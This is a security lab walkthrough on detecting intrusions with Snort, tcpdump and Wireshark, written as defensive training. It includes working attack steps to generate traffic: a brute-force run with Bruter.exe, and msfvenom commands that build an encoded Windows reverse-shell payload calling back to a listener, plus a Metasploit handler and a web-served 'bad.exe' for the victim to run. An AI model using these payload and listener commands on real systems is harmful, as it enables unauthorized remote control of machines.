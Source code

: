 ## LAB 8 - Intrusion Detection Using Snort

### Objectives

- Set Up the Sniffer
- Detect Unwanted Incoming Traffic
- Detect Unwanted Outgoing Traffic

| Key Term      | Description                                                                                                                                                                                                                                                                                                                                         |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Wireshark<br> | A protocol analyzer that read binary capture files. Wireshark will also allow you to capture network traffic and runs on Windows, Linux, and on Mac OS X.<br>                                                                                                                                                                                       |
| snort<br>     | An Intrusion Detection System, or an IDS, that can be used to analyze and capture traffic. By using signatures, snort can provide information about activity within a capture file. Snort can be downloaded from www.snort.org and is a free and commercial tool. Sourcefire, a Columbia, Maryland–based company, maintains and develops snort.<br> |
| tcpdump<br>   | A Linux/UNIX program that allows you to capture network traffic. The tcpdump program comes installed on many Linux distributions by default.<br>                                                                                                                                                                                                    |
| Sniffer<br>   | A Sniffer is used to capture network traffic on a network. Software programs like tcpdump, Wireshark, and Network Miner can be used to sniff traffic.<br><br>                                                                                                                                                                                       |
| PCAP File<br> | Programs that can sniff network traffic like tcpdump, Wireshark, and Network Miner allow you to save the network capture to a PCAP file format. In order to read the PCAP format, you need a tool like Wireshark or Network Miner.<br>                                                                                                              |

### Setting Up the Sniffer

#### Logging On To The Sniffer

1. Log in to the sniffer machine (likely running Kali Linux w/ no IP)
2. Open Terminal
3. View active interfaces by running `ifconfig`
	- Neither of the interfaces, eth0 or eth1, is assigned an IP address on their respective networks. The reason the sniffer has two interfaces is that it is located on two networks, the internal network (LAN) and the external network (WAN)

A sniffer should be operating in promiscuous mode so it can see all network traffic. To put the interfaces into promiscuous mode, follow the next steps:

Two ways to ensure that a sniffer will capture all traffic on a network segment:

- Connect the sniffer and other devices on the network to a hub
- Connect the sniffer to a switch’s SPAN (Switched Port Analyzer) port

4. To use the first interface, run `ifconfig eth0 0.0.0.0 up`
5. To activate the second, run `ifconfig eth1 0.0.0.0 up`
6. Issue `tcpdump --help` to view available tcpdump switches
7. Run tcpdump on eth0 by running `tcpdump -i eth0`
8. While that's running, log in to the Windows 2008 Server
9. View the sniffer capture and stop it once a couple IPv4 packets show up
10. Run tcpdump on eth1 by running `tcpdump -i eth1`
11. Log in to the Windows 7 Attack Machine
12. View the sniffer capture and stop it once a couple packets show up
13. Capture traffic on the 192.168.1.0/24 network and send it to a file by running `tcpdump –i eth0 -nnntt -s 0 -w capnet1.cap -C 100`

| Switch  | Meaning                                                      |
| ------- | ------------------------------------------------------------ |
| -i eth0 | Use interface zero                                           |
| -nnntt  | Disable DNS resolution, date and time format                 |
| -s 0    | Disables default packet size of 96 bytes, full packet size   |
| -w      | Write to a capture file, instead of displaying to the screen |
| -C      | Split the captures into files of this size                   |

14. Let the capture run for a few minutes before stopping it
15. View the capture file by running `wireshark capnet1.cap`, then quit Wireshark
16. Capture traffic on the 216.0.0.0/8 network and send it to a file by running `tcpdump –i eth1 -nnntt -s 0 -w capnet2.cap -C 100`
17. Log off of the Windows 7 Attack Machine
18. Let the capture run for a few minutes before stopping it
19. View the capture file by running `wireshark capnet2.cap`, then quit Wireshark

### Detecting Unwanted Incoming Traffic

#### Detecting Attacks

1. Start the sniffer on the internal interface by running `tcpdump –i eth0 -nnntt -s 0 -w brute.cap –C 100`
2. Log in to the Windows 7 Attack Machine
3. On the Windows machine, open Command Prompt then run `nmap 216.1.1.1` to view open firewall ports
4. Open Bruter.exe
5. Input the necessary fields, then start the brute force attack
6. Click on the Testing tab to view the actions against the victim
7. View the Result tab
8. Stop tcpdump from capturing on the sniffer
9. Run `snort -l . -c /etc/snort/snort.conf -r brute.cap` then wait for a new prompt before running `ls`. Take note of the `alert.ids` file
10. Open this file with leafpad by running `leafpad alert.ids`
11. Scroll down and look for clusters of alerts, usually indicators of an attack

### Detecting Unwanted Outgoing Traffic

#### Using Wireshark

1. Start the sniffer on the internal interface by running `tcpdump –i eth0 -nntttt -s 0 -w badtraffic.cap`
2. Log on to a Kali Attack Machine that we'll create the malicious software on
3. Launch Terminal
4. Run `msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp lhost=216.1.1.100 lport=443 -f exe -e x86/shikata_ga_nai -o bad.exe` to generate a payload
5. Startup PostgreSQL by running `service postgresql start`
6. Run `msfconsole` to open the msfconsole of the Metasploit framework
7. To use the multi-handler in the msfconsole, run `use exploit/multi/handler`
8. Set the host using `set lhost 216.1.1.100`
9. Set the port using `set lport 443`
10. Set the payload to a reverse windows command shell using `set payload windows/shell/reverse_tcp`
11. Verify the options are set using `show options`
12. Use `exploit` to start listening on port 443
13. Open another Terminal, then run `apache2ctl start` to start Apache
14. View current running services by running `netstat -tan` then `nmap 127.0.0.1`
15. Copy bad.exe to the HTTP root by running `cp bad.exe /var/www/html`
16. List the files within the FTP root by running `ls /var/www/html`
17. Log back into the Internal Windows 2008 Server
18. Open Internet Explorer
19. Type the URL [http://216.1.1.100/bad.exe](http://216.1.1.100/bad.exe)
20. Click Run twice when prompted
21. Go back to the Kali 2 Attack Machine, return to the Terminal, view the connection to the victim
22. Run `dir` to list the directory
23. Go back to the sniffer, stop the tcpdump capture, then run `wireshark badtraffic.cap`
24. Type "frame contains “Microsoft Windows” in the pane then click Apply
25. Right-click a packet and follow its TCP stream
26. View the traffic

